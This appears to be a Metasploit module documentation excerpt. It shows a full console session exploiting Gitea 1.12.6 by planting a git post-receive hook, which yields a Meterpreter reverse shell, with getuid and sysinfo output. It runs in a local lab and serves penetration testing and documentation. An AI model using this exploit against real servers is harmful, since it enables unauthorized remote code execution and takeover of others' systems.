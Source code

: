 ```
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.75     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(multi/http/gitea_git_hooks_rce) > set verbose true
verbose => true
msf exploit(multi/http/gitea_git_hooks_rce) > run

[*] Started reverse TCP handler on 192.168.1.75:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Gitea version is 1.12.6
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Authenticate with "msfuser/Msf!23"
[*] Get "csrf" value
[+] csrf=T1KKDKlPGzvIj4fuomjsVJEa-MU6MTYxNzE5OTU0NzU0MTcyNzcwMA
[+] Logged in
[*] Create repository "Sonair_Trippledex"
[*] Get "csrf" and "uid" values
[+] csrf=9836W_NOSYO4u-1hnrr5F9UZ4dg6MTYxNzE5OTU0ODU0MjM4MzQwMA
[+] uid=1
[+] Repository created
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAA...<redacted>
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAO...<redacted>
[*] Setup post-receive hook with command
[*] Get "csrf" value
[+] csrf=9836W_NOSYO4u-1hnrr5F9UZ4dg6MTYxNzE5OTU0ODU0MjM4MzQwMA
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[*] Get "csrf" and "last_commit" values
[+] csrf=9836W_NOSYO4u-1hnrr5F9UZ4dg6MTYxNzE5OTU0ODU0MjM4MzQwMA
[+] last_commit=4d92bd44d30756f8cecaf2682cb4dd5129856085
[*] RfWwr.txt created
[+] File created, shell incoming...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 192.168.1.75
[*] Meterpreter session 1 opened (192.168.1.75:4444 -> 192.168.1.75:61289) at 2021-03-31 16:05:51 +0200
[*] Cleaning up
[*] Get "csrf" value
[+] csrf=9836W_NOSYO4u-1hnrr5F9UZ4dg6MTYxNzE5OTU0ODU0MjM4MzQwMA
[*] Repository Sonair_Trippledex deleted.

meterpreter > getuid
Server username: git @ 7ed1d63a11a7 (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 172.20.0.3
OS           :  (Linux 4.19.121-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```